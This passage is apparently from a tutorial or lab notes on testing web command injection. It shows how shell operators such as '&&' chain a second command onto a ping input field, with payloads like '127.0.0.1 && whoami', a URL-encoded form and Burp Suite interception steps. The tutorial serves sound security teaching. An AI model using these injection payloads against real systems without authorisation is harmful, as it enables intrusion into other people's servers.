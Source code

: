 - Front-end validation is not security — it can always be bypassed.    
- Always check with intercepted and modified raw HTTP requests.
- Use tools like Burp Suite for manual testing and payload crafting.
# Testing Other Injection Operators

After confirming command injection using the semicolon (`;`), we test alternative shell operators to understand their behavior in different scenarios.
### Using the AND Operator (`&&`)

Payload:

```
127.0.0.1 && whoami
```

Executed Command:

```bash
ping -c 1 127.0.0.1 && whoami
```

Behavior:

- Second command (`whoami`) runs only if the first (`ping`) succeeds.    
- Ideal for clean chaining of commands when the first must be valid.
#### Local Test

```bash
ping -c 1 127.0.0.1 && whoami
```

Output:

- Ping results    
- Then current user (e.g., `21y4d`)
#### In Burp Suite

- Intercept request    
- Modify payload to:

```
127.0.0.1 && whoami
```

- URL-encode: `127.0.0.1%20%26%26%20whoami`    
- Send and confirm both outputs in the response

✅ Successful command injection using `&&`
### Using the OR Operator (`||`)

Payload:

```
127.0.0.1 || whoami
```

Executed Command:
